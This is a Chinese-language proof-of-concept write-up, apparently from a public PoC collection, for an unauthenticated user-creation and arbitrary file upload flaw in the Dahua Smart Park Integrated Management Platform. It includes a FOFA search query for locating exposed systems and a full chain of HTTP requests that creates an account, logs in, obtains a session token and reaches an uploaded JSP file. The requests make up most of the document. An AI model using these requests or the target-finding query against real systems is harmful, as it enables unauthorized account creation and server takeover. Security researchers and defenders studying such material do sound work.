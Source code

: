 # 大华 智慧园区综合管理平台 user_save.action 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台存在未授权访问漏洞，攻击者通过构造特殊的请求包可以创建新用户，再利用文件上传漏洞获取服务器权限

## 漏洞影响

大华 智慧园区综合管理平台

## FOFA

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

![image-20230704114553099](D:\TMP_FILE\awesome-poc\iot\images\image-20230704114553099.png)

验证POC

```
POST /admin/user_save.action HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 914
Content-Type: multipart/form-data; boundary=----fxwrpqcy
Cookie: JSESSIONID=65A8F19555DC1EFB09B5A8B4F0F6921C
User-Agent: Go-http-client/1.1

------fxwrpqcy
Content-Disposition: form-data; name="userBean.userType"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.ownerCode"

001
------fxwrpqcy
Content-Disposition: form-data; name="userBean.isReuse"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.macStat"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.roleIds"

1
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="displayedOrgName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="checkPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="userBean.groupId"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.userName"

luqaahkf
------fxwrpqcy--
```

![image-20230704114609838](D:\TMP_FILE\awesome-poc\iot\images\image-20230704114609838.png)

```
POST /WPMS/getPublicKey HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 25
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf"}
```

![image-20230704114626015](D:\TMP_FILE\awesome-poc\iot\images\image-20230704114626015.png)

```
POST /WPMS/login HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 271
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf","loginPass":"IxID6I8gKNSkCgu5UMwfRAhZpyvKKzu9q+dUngiieHiCTA52x3/uNB17NmAOletbzTOT46fLE5AOOMqMaqdDLA5rcsB3/Gql1qYwbNWLB6orKWpWEr9asUeNi/3ccIb95NUAXS1yn0l3ks94jbGT/CYbNq+JiBAeYlwcfdrqYkM=","timestamp":"16853622671401904168273612873678126378126387"}
```

![image-20230704114644296](D:\TMP_FILE\awesome-poc\iot\images\image-20230704114644296.png)

```
/admin/login_login.action?subSystemToken=87a629bc14298c1533d8b52dd63e87f7
```

![image-20230704114655894](D:\TMP_FILE\awesome-poc\iot\images\image-20230704114655894.png)

```
/upload/axqvssmz.jsp
```

